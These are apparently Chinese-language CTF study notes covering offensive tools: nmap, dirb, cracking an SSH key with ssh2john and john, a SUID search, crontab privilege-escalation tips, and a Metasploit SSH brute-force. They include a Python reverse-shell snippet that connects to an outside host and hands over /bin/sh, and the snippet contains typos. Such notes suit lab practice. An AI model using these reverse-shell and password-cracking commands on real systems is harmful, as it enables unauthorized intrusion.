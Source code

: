 # CTF 工具学习笔记

* nmap 探测工具

常用命令：

```bash
nmap -sV 192.168.6.0/24
```

表示扫描192.168.6.0.子网下所有机器的开放端口。

* dirb 查看站点隐藏文件

常用命令：

```bash
dirb http://192.168.7.6/
```

* ssh 远程连接

常用命令：

```bash
ssh -i id_rsa root@192.168.7.6
```

表示使用私钥文件id_rsa、用户名root登录远程主机192.168.7.6

其中 id_rsa 文件需要可读可写权限：

```bash
chmod 600 id_rsa
```

* ssh2john 转换ssh私钥为john可识别的信息。

常用命令：

```bash
ssh2john id_rsa > isacrack
```

* john 解密 isacrack 信息

john工具用于解密isacrack文件对应的信息。

命令：

```bash
zcat /usr/share/wordlists/rockyou.txt.gz | john --pipe --rules isacrack
```

* find 查看具有执行权限的文件

```bash
find / -perm -4000 2>/dev/null
```

从根目录查找具有可执行权限的文件，标准错误重定向到/dev/null

**要多注意 /root 目录下的文件。**

* 查看/etc/crontab，查找定时任务

查看其中不是root写权限的脚本或者指定的目录不存在，修改内容，执行

* 查看/etc/passwd，查看所有用户

* 查看 /etc/group，查看所有用户组

* 查看 /tmp 目录，没准有有用信息

* 反弹 shell
  在攻击机使用netcat开启一个tcp服务器，在靶机使用一个tcp socket连接上攻击机，然后将输入输出全都重定向到这个socket，然后启动一个shell子进程。

  代码大致如下：

```python
import os, subprocess, socket

s = socket.socket(socket.AF_INET, sock.SOCK_STREAM)
s.connect(("1.1.1.1", 1234))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
p=subprocess(["/bin/sh", "-l"])
```

* netcat 本地监听

常用命令：

```bash
nc -lpv 1234
```

* netstat 查看端口占用

常用命令:

```bash
netstat -pantu
```

* whoami查看当前用户
* id 查看当前用户权限
* 使用cupp创建字典

```bash
git clone https://github.com/jeanphorn/common-password.git
cd common-password/
chmod +x cupp.py
./cupp.py -i
```

* 使用 metasploit 破解 ssh

在终端执行：
```bash
msfconsole
```

然后进入 msf 环境：

执行：

```bash
use auxiliary/scanner/ssh/ssh_login
set rhosts 192.168.1.137
set username skyfire
set pass_file dict.txt
run
```

就使用dict.txt中的密码破解远程ssh主机。

使用 `show options ` 可以查看参数

破解成功后，使用`session -i 1`可以打开终端，但是没有提示符。可以运行python脚进行优化显示：

```bash
python -c "import pty; pty.spawn('/bin/bash')"
```

* su 切换用户

常用命令：

```bash
su - root
```
